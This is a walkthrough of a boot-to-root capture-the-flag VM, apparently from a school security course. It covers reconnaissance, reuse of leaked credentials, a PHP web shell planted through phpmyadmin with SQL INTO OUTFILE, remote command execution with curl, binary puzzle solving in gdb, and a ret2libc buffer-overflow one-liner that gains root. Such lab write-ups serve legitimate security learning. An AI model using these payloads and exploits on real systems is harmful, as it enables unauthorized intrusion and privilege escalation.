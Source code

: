 # Main way

Since bridged adapter is blocked in the school - I setup kali linux vm and boot-to-root vm through host-only adapter.
I created local network through *VirtualBox->File->Host network manager*, and it's ip *192.168.56.1/24*.
Now, there is a local network with kali vm, boot-to-root vm and host computer.
And kali will see only host computet and boot-to-root vm.
My kali linux ip is 192.168.56.101 (through * ip a *).
And we need to find out how can we interact with boot-to-root vm. For this I check all available ports im my local network with * nmap 192.168.56.1-225 *

For only one non host port in my local network I received:
Nmap scan report for 192.168.56.102
Host is up (0.0010s latency).
Not shown: 994 closed ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps

So boot-to-root vm running on 192.168.56.102 ip, and have few open ports.

On http there is site, which is pretty empty, I check it html source code and there is nothing interesting in it. 
After that I scanned it with * skipfish -o path_to_save http://192.168.56.102 * and * nikto -h http://192.168.56.102 *, and not found thomething interesting.

There is another open port which could be scanned, it's https.
using * nikto -h https://192.168.56.102 * we recieve few interesting dirs: forum, webmail, phpmyadmin

On forum there are 4 topics and only one is iteresting, topic *Probleme login* where user *lmezard* push logs with attempts to log in.

In these logs we can see, what username lmezard used trying to log in, it's *Failed password for invalid user 'username'* 
And there is interesting username in string * Failed password for invalid user !q\]Ej?*5K5cy*AJ *
And, these characters came up for lmezard password.

In lmezard profile we could see his email, so we go to webmail, and try the same password !q\]Ej?*5K5cy*AJ to his mail. And it's fits again.

In mail there is message * DB Access * which contains * Use root/Fg-'kKXBj87E:aJ$  *. It doesn't fit to ssh and ftp connection, but it's fit to phpmyadmin.

First of all I checked all tables in db, but all users passwords hashed and I didn't find any helpful information.
And another way to get access to server - is SQL injection through which you can access the shell.
(detailed articles about SQL injections https://null-byte.wonderhowto.com/how-to/use-sql-injection-run-os-commands-get-shell-0191405/ https://www.informit.com/articles/article.aspx?p=1407358&seqNum=2)

* SELECT  '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/forum/templates_c/hack.php' *
templates_c - dir which always need write permission, used for compiled templates. I found it through *dirbuster* and brute force dirs to write access.

After that we can run something like this * https://192.168.56.102/forum/templates_c/hack.php?cmd=pwd * and it will show pwd output * /var/www/forum/templates_c *

After a little research, we can see LOOKATME dir in home dir with other users (I used curl because more convenient output):
* curl --insecure 'https://192.168.56.102/forum/templates_c/hack.php?cmd=ls%20-la%20/home' * (--insecure because of https not safe)
drwxrwx--x 9 www-data             root                 126 Oct 13  2015 .
drwxr-xr-x 1 root                 root                 200 Apr 16 04:01 ..
drwxr-x--- 2 www-data             www-data              31 Oct  8  2015 LOOKATME
drwxr-x--- 6 ft_root              ft_root              156 Jun 17  2017 ft_root
drwxr-x--- 3 laurie               laurie               143 Oct 15  2015 laurie
drwxr-x--- 4 laurie@borntosec.net laurie@borntosec.net 113 Oct 15  2015 laurie@borntosec.net
dr-xr-x--- 2 lmezard              lmezard               61 Oct 15  2015 lmezard
drwxr-x--- 3 thor                 thor                 129 Oct 15  2015 thor
drwxr-x--- 4 zaz                  zaz                  147 Oct 15  2015 zaz

There is file password in LOOKATME dir, which contains * lmezard:G!@M6f4Eatau{sF" *

This password fit to ftp port, which contains README file - "Complete this little challenge and use the result as password for user 'laurie' to login in ssh", and fun file (which need to be solved).
(command 'get' to receive files through ftp)

### lmezard
File fun is archive (I found out it because of '0ustar' mark in file).
After unzipping (* tar -xf fun *)
There is a folder * ft_fun * with a lot of pcap files.

These files have c code, and comments which number/line it has.
So we need to write script which will correct concat them into c file.
We can use our "build_program.py" script inside this folder to get full program.
Compile and run "prog.c". Got "Iheartpwnage" password and advice to use sha-256.

### laurie
```
echo -n "Iheartpwnage" | shasum -a 256
```
laurie : 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4

There is bomb here. Bomb contains of 6 phases. We should input correct key in each stage.
```
scp -P 2222 laurie@127.0.0.1:bomb ./
```

gdb bomb

    disas main
    disas phase_1
    x/1cs 0x80497c0
    "Public speaking is very easy."

    disas phase_2
    Program expects 6 numbers. First is 1, and every number = prev * (index(cur) + 1)
    "1 2 6 24 120 720"

    disas phase_3
It is very difficult to read this asm code. And We downloaded cutter to decompile bomb. Yeah, this way is much better.
We see switch-case condition here and there are several correct combinations.
0 q 777
1 b 214

phase_4
    Recursive function, which returns sum of calls this function with num - 1 and num - 2. If num < 2 function returns 1. We need 55.
    1 -> 1
    2 -> 2
    3 -> 3
    4 -> 5
    5 -> 8
    6 -> 13
    7 -> 21
    8 -> 34
    9 -> 55

phase_5
    So we will have some sex with bytes here.
    We shoud get word "giants". Program expects 6 charachters.
    Logical AND with 0xF uses for each inputed character, and then get this num as index of "isrveawhobpnutfg" array.
    So we need indexes: 15 0 5 11 13 1.
    Look at ascii table and get characters which hexadecimal second digit are f, 0, 5, b, d, 1. It is "opekmq".

phase_6
    Program expects 6 numbers.
    Inside program is array with numbers 253 725 301 997 212 432.
    There are 4 cycles here.
    1) Checks that each number is unique and 1 <= n <= 6.
    2) 3) Build new array from program's array with inputed indexes.
    4) Check that new array is sorted.
    So we need numbers "4 2 6 3 1 5".

README says to remove spaces when we have FULL the password. Ok, lets concatenate all strings and remove spaces.
"Publicspeakingisveryeasy.126241207201b2149opekmq426135". This is password for thor.

### thor
Use our "parse_turtle_steps.py" script and look at word "SLASH".
```
md5 -s SLASH
```
"646da671ca01bb5d84dbb5fb2238dc8e" is password for zaz.

### zaz
You can see expolit_me file there. This program takes argument and prints it. With decompiled code we can see that there is only 140 bytes buffer inside main. And strcpy is uding here. Excellent opportunity to overflow buffer and use ret2lib exploit.

We need to know system command adress and '/bin/bash' string address.

gdb exploit_me

    break main
    run
    print &system                           > 0xb7e6b060 > '\xb7\xe6\xb0\x60'
    find &system, +9999999, "/bin/sh"       > 0xb7f8cc58 > '\xb7\xf8\xcc\x58'


Now we can run this command
```
./exploit_me $(python -c "print('a' * 140 + '\xb7\xe6\xb0\x60'[::-1] + 'dumm' + '\xb7\xf8\xcc\x58'[::-1])")
```

Whaaat is going on? Whoami? A im root! System has been hacked.

Description of ret2lib exploit.
https://www.exploit-db.com/docs/english/28553-linux-classic-return-to-libc-&-return-to-libc-chaining-tutorial.pdf

Gdb useful things.
https://darkdust.net/files/GDB%20Cheat%20Sheet.pdf
